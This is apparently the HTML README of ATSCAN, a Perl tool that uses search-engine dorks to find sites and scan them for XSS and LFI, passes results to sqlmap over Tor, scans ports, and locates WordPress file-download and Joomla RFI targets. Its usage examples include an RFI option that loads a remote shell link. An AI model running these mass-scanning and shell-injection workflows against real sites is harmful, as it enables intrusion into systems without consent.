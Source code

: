 <html>
<body>
<h1 align="center">ATSCAN</h1>
<p align="center"> <b>Search / Site / Server Scanner </b></p>
<center><img src="http://i.imgur.com/jUt3Gn7.png" /></center>
<table border="0" cellpadding="2" cellspacing="2" width="100%">
  <tr>
    <td align="center" class="main3"><b>Alisam Technology is not responsible for any misuse, damage caused by this script or attacking targets without prior mutual consent!<b></td>
  </tr>
</table>
<table border="0" cellpadding="0" cellspacing="2" width="100%">
  <tr>
    <td width="100px" class="main2"><b>AUTHOR:</b></td><td>Alisam@Technology</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>FACE:</b></td><td>facebook.com/Forces.des.tempetes.marocaines</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>YOUTUBE:</b></td><td>youtube.com/c/AlisamTechnology</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>WITTER:</b></td><td>twitter.com/AlisamTechno</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>PLUS:</b></td><td>plus.google.com/+AlisamTechnology</td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Description:</b></td>
  </tr>
  <tr>
    <td class="main">ATSCAN <br /> SEARCH engine <br />XSS scanner. <br /> Sqlmap.<br /> 
        LFI scanner.<br /> Filter wordpress and Joomla sites in the server. <br />Find Admin page.<br /> Decode / Encode MD5 + Base64. <br />This this my first script im sure is full with mistakes!! 
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"> <b>Libreries to install:</b></td>
  </tr>
  <tr>
    <td class="main">
      ap-get install libxml-simple-perl <br/>
      aptitude install libio-socket-ssl-perl <br/>
      aptitude install libcrypt-ssleay-perl <br/>
      NOTE: Works in linux platforms. Best Run on Ubuntu 14.04, Kali Linux 2.0, Arch Linux, Fedora Linux, Centos | if you use a windows you can download manualy.
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Download & Executution:</b></td>
  </tr>
  <tr>
    <td class="main">
      git clone https://github.com/AlisamTechnology/ATSCAN <br/>
      cd ATSCAN <br/>
      chmod +x ATSCAN <br/>
      ./ATSCAN <br/>
      OR <br/>
      $chmod +x atscan.pl  <br/>
      Execute: perl ./atscan.pl <br/>
      Execute: perl ./atscan.pl --help
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Screenshots:</b></td>
  </tr>
  <tr>
    <td align="center">
    <img src="http://i.imgur.com/J0fM1PB.jpg" /><br/><br/>
    <img src="http://i.imgur.com/JGBKRGw.jpg" /><br/><br/>
    <img src="http://i.imgur.com/HxdjrM8.jpg" /><br/><br/>
    <img src="http://i.imgur.com/yZOSiei.jpg" /><br/><br/>
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Help:</b></td>
  </tr>
  <tr>
    <td class="main"><table border="0" cellpadding="2" cellspacing="5" width="100%">
      <tr>
        <td width="100px" class="main">--tor</td>
        <td class="main">tor proxy [DEFAULT:socks://localhost:9050] Change if needed!</td>
      </tr>
      <tr>
         <td width="100px" class="main">--dork</td>
        <td class="main">Search engine</td>
      </tr>
      <tr>
        <td width="100px" class="main">--mp</td>
        <td class="main">set number of page results to scan</td>
      </tr>
      <tr>
        <td width="100px" class="main">--xss</td>
        <td class="main">Xss scan</td>
      </tr>
      <tr>
        <td width="100px" class="main">--lfi</td>
        <td class="main">lfi scan</td>
      </tr>
      <tr>
        <td width="100px" class="main">-t</td>
        <td class="main">Target</td>
      </tr>
      <tr>
        <td width="100px" class="main">-l</td>
        <td class="main">List name</td>
      </tr>
      <tr>
        <td width="100px" class="main">--exp</td>
        <td class="main">Set exploit</td>
      </tr>
      <tr>
        <td width="100px" class="main">--valid</td>
        <td class="main">Text for validate results</td>
      </tr>
      <tr>
        <td width="100px" class="main">--sqlmap</td>
        <td class="main">Sqlmaping xss results</td>
      </tr>
      <tr>
        <td width="100px" class="main">--sqlmaptor</td>
        <td class="main">Sqlmaping xss results using tor proxy</td>
      </tr>
      <tr>
        <td width="100px" class="main">--lfi</td>
        <td class="main">local file inclusion</td>
      </tr>
      <tr>
        <td width="100px" class="main">--joomrfi</td>
        <td class="main">get joomla sites with rfi in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--shell</td>
        <td class="main">shell link [Ex: http://www.site.com/shell.txt]</td>
      </tr>
      <tr>
        <td width="100px" class="main">--wpadf</td>
        <td class="main">get wordpress sites with arbitery file download in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--admin</td>
        <td class="main">get site admin page</td>
      </tr>
      <tr>
        <td width="100px" class="main">--shost</td>
        <td class="main">get site subdomains</td>
      </tr>
      <tr>
        <td width="100px" class="main">--ports</td>
        <td class="main">scan server ports</td>
      </tr>
      <tr>
        <td width="100px" class="main">--start</td>
        <td class="main">start scan port</td>
      </tr>
      <tr>
        <td width="100px" class="main">--end</td>
        <td class="main">end scan port</td>
      </tr>
      <tr>
        <td width="100px" class="main">--tcp</td>
        <td class="main">tcp ports</td>
      </tr>
      <tr>
        <td width="100px" class="main">--udp</td>
        <td class="main">udp ports</td>
      </tr>
      <tr>
        <td width="100px" class="main">--all</td>
        <td class="main">complete mode</td>
      </tr>
      <tr>
        <td width="100px" class="main">--basic</td>
        <td class="main">basic mode</td>
      </tr>
      <tr>
        <td width="100px" class="main">--select</td>
        <td class="main">Select mode you can set rang of ports</td>
      </tr>
      <tr>
        <td width="100px" class="main">--sites</td>
        <td class="main">sites in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--wp</td>
        <td class="main">wordpress sites in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--joom</td>
        <td class="main">joomla sites in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--upload</td>
        <td class="main">get sites with upload files in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--zip</td>
        <td class="main">get sites with zip files in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--st</td>
        <td class="main">string</td>
      </tr>
      <tr>
        <td width="100px" class="main">--md5</td>
        <td class="main">convert to md5</td>
      </tr>
      <tr>
        <td width="100px" class="main">--encode64</td>
        <td class="main">encode base64 string</td>
      </tr>
      <tr>
        <td width="100px" class="main">--decode64</td>
        <td class="main">decode base64 string</td>
      </tr>
      <tr>
        <td width="100px" class="main">--isup</td>
        <td class="main">check http status 200</td>
      </tr>
      <tr>
        <td width="100px" class="main">--httpd</td>
        <td class="main">print site httpd version</td>
      </tr>
    </table></td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Examples:</b></td>
  </tr>
  <tr>
    <td class="main">
    <b>Simple search: </b><br/>
    --dork DORK --mp [number of page results to scan]<br/>
    --dork [DORK1,DORK2,DORK3..] --mp [number of page results to scan]<br/>
    --dork [DORK.txt] --mp [number of page results to scan from list]<br/><br/>
    <b>Subscan from Serach Engine: </b><br/>
    Xss: --dork DORK --mp 1 --xss<br/>
    Xss: --dork DORKS.TXT --mp 1 --xss <br/>
    Lfi: --dork DORK --mp 1 --lfi<br/>
    Search + Command: --dork DORK --mp VALUE --command 'curl -v' --TARGET<br/><br/>
    <b>Validation: </b><br/>
    Xss: --dork DORK --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORK --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORK --mp 1 --xss --isup <br/>
    Lfi: --dork DORK --mp 1 --xss --isup <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORKS.TXT --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --isup <br/>
    Lfi: --dork DORKS.TXT --mp 1 --xss --isup <br/><br/>
    <b>Use List / Target: </b><br/>
    Xss: -t TARGET --xss <br/>
    Lfi: -l TARGET --lfi <br/>
    Xss + Validation: -t TARGET --xss --valid TEXT <br/>
    Lfi + Validation: -t TARGET --lfi --valid TEXT  <br/>
    Xss + Validation: -l list.txt --xss --isup <br/>
    Lfi + Validation: -l list.txt --lfi --isup  <br/>
    Find admin page: -t TARGET --admin  <br/>
    Find subdomains: -t TARGET --shost  <br/><br/>
    
    <b>Server: </b>  <br/>
    Get Server sites: -t IP --mp [VALUE] --sites   <br/>
    Get Server sites: -t IP.txt --mp [VALUE] --sites   <br/>
    Get Server wordpress sites: -t IP --mp [VALUE] --wp   <br/>
    Get Server joomla sites: -t IP --mp [VALUE] --joom   <br/>
    Get Server upload sites: -t IP --mp [VALUE] --upload   <br/>
    Get Server zip sites files: -t IP --mp [VALUE] --zip   <br/>
    WP Arbitry File Download: -t IP --mp [VALUE] --wpadf   <br/>
    Joomla RFI: -t IP --mp <1> --joomfri --shell SHELL LINK   <br/>
    Scan basic tcp (quick): -t IP --ports --basic --tcp   <br/>
    Scan basic udp basic (quick): -t IP --ports --basic --udp   <br/>
    Scan basic udp+tcp: -t IP --ports --basic --udp --tcp   <br/>
    Scan complete tcp: -t IP --ports --all --tcp   <br/>
    Scan complete udp: -t IP --ports --all --udp   <br/>
    Scan complete tcp+udp: -t IP --ports --all --udp --tcp   <br/>
    Scan rang tcp: -t IP --ports --select --start --end --tcp   <br/>
    Scan rang udp: -t IP --ports --select --start --end --udp   <br/>
    Scan rang udp + tcp: -t IP --ports --select --start VALUE --end VALUE --udp --tcp <br/><br/>
    <b>Encode / Decode:  </b> <br/>
    Generate MD5: -st STRING --md5 <br/>
    Encode base64: -st STRING --encode64  <br/> 
    Decode base64: -st STRING --decode64 
    </td>
  </tr>
</table>  
</body>
</html>
